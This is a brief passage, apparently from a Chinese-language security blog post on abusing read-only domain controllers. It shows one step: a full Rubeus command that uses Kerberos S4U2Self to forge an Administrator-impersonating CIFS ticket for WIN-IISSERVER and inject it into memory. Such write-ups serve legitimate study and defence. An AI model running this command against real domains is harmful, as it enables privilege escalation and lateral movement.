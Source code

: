 （2）通过 Kerberos 的 S4U2Self 扩展协议，使用已获取到的 TGT 申请针对 WIN-IISSERVER 上 CIFS 服务的特权 ST 票据并提交到内存中，如下所示。

```
 Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:CIFS/WIN-IISSERVER /dc:rodc.corp.local /ticket:<Base64EncodedTicket> /ptt
```

![image-20231123161905514](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231123161905514.png)
